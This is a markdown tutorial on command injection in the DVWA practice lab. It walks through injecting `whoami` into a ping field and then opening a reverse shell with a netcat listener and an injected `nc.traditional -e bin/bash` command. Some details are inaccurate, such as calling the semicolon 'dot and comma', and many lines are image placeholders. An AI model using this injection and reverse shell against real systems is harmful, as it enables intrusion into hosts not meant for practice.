









# Command Injection

# Overview
* Considering a website that is used to ping your ip-address/domain name for.eg. below is a website that would ping the entered ip-address/domain.
</img>


# Steps to Perform Command Injection
## Step 1: Login to OWASP 
* Login to OWASP and click on Damn Vulnerable Web Applications 
</img>
* You would be re-directed to DVWA's login page. 
* Login to DVWA using **admin as username and password.**<br>
</img>
* Type in sample command such as `whoami` after a **dot and comma (.,)** as below <br>
</img>

* In the result, you see the outputs of both commands i.e. **ping and whoami.**<br>
</img>

# Exploiting Command Injection
* We can try to make a connection with DVWA's machine to our Kali Linux Machine. This can be done using `netcat`
* `netcat` is used to connect 2 PCs
    * For our Kali linux, we need to set up **listening port,** e.g.12345
        * Type the following command `nc -lvp 12345`
        * -l is listening mode
        * -v is verbose mode
        * -p specifies port number<br>
        </img>
    *  Listening port would be used to listen to any connection coming to our PC.
 * Typing the following command would allow us to connect to victim's machine:<br>
 ```
 <your-ip-address>;nc.traditional -e bin/bash <ip-address-of-machine-to-which-you-want-to-connect>
 ```
* There would be **no output** once you perform this command line injection.<br><br>
</img>
* Once you submit, **go back to kali linux** and you would see the following output:<br><br>
</img>
* If you type the **command `whoami`,** you should see `www -data`<br><br>
</img>


